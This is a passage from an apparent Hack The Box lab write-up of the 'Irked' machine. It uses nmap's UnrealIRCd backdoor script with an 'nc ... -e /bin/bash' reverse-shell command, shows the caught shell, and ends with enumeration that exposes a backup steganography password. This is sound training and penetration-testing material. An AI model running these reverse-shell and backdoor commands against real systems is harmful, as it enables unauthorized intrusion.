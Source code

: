 {% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Irked]
└──╼ $nmap -d -p 6697,8067,55873,65534 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc 10.10.14.8 9889 -e /bin/bash' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-27 01:46 IST
[Redacted]
Scanned at 2020-09-27 01:46:26 IST for 29s

PORT      STATE  SERVICE    REASON
6697/tcp  open   ircs-u     syn-ack
8067/tcp  open   infi-async syn-ack
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
55873/tcp closed unknown    conn-refused
65534/tcp open   unknown    syn-ack
Final times for host: srtt: 82506 rttvar: 27284  to: 191642

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 1) scan.
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Nmap done: 1 IP address (1 host up) scanned in 29.35 seconds
{% endhighlight %} 

It detected a backdoor, checking the netcat listner.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Irked]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.117] 39502
whoami
ircd
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
{% endhighlight %} 

And we got a shell on the server.

### Getting User

During basic enumeration we get a file `.backup` in user `djmardov` Documents directory.
{% highlight bash %}
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:/home/djmardov/Documents$
{% endhighlight %} 
